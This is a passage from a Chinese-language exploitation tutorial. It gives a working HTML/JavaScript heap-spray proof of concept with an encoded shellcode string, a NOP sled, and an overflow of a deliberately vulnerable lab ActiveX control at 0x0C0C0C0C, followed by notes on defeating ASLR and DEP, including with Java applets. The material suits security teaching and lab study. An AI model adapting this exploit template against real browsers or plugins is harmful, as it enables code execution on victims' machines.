 POC代码
<pre><code>
&lt;html&gt;
&lt;body&gt;
&lt;script&gt;
var nops = unescape("%u9090%u9090");
var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";
while (nops.length &lt;0x100000/2)
    nops += nops;
nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
nops = nops+shellcode;
var memory = new Array();
for (var i=0; i&lt;200; i++)
    memory[i] += nops;
&lt;/script&gt;
&lt;object classid="clsid:2554812E-4AE1-4FB0-8F6B-9C5E824D1B2D" id="test"&gt;&lt;/object&gt;
&lt;script&gt;
var s = "\u9090";
while (s.length &lt; 54){
    s += "\u9090";
}
s += "\u0C0C\u0C0C";
test.test(s)
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
</code></pre>

#### 3.2 实验内容

利用JS申请200个1MB的内存块，观察内存块的起始地址的变化情况。为了便于确定内存块的起始位置，我们在内存块的开始位置放置0x81828182，然后查找来确定内存块的起始位置！

由于Heap Spray是针对浏览器的，所以这儿仍然使用ActiveX来进行演示！为了测试，一般将EIP指向0x0C0C0C0C这个位置！！

<b>实验思路</b>
1. 利用Heap Spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
2. 每个内存块中包含着0x90填充和shellcode
3. Heap Spray结束后我们会占领0x0C0C0C0C附近的内存，我们只需要控制程序转入0x0C0C0C0C执行，在执行若干个0x90滑行之后就可以到达shellcode范围并执行
4. test函数存在典型的溢出漏洞，此处用的VulnerAX.ocx中的ActiveX控件
5. 我们将函数返回地址覆盖为0x0C0C0C0C，函数执行返回执行后就会转入我们申请的内存空间中

### 4. 利用java applet heap spray技术定位内存地址

<font color=#f00>Java applet能绕过DEP，是因为JVM分配Java applet申请的空间时将其申请的空间打上了PAGE_EXECUTE_READWRITE标识，让这段内存具有可执行属性!
其实在java applet中可以采用类似Heap spray的方法，在JVM的堆空间中申请大量的内存块来对抗ASLR！
与Heap Spray不同的是，Heap Spray最大可申请1GB的空间，而每个Java applet最多能申请100MB的空间。为此我们申请90MB空间！！
</font>
